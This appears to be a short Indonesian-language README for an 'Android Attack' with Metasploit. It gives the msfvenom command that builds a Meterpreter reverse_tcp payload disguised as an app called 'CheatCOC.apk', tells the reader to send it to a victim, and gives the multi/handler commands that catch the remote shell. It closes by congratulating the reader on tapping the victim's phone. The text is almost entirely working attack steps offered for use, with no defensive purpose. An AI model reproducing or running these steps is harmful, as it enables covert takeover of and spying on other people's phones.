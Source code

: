 # Metasploit

# Android Attack 

$sudo apt update

$sudo apt upgrade

$ifconfig (untuk mengetahui ip)

$sudo su (masuk ke menu root)

Membuat payload dengan perintah

 #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

#etc/init.d/postgresql start

#msfconsole

#use multi/handler

#set payload android/meterpreter/reverse_tcp

> #set LHOST 192.168.111.61

> #set LPORT 4321

>#exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

> >? (untuk melihat apa saja perintah yang dapat dilakukan)

# selamat kamu telah menyadap hp target/korban mu :)
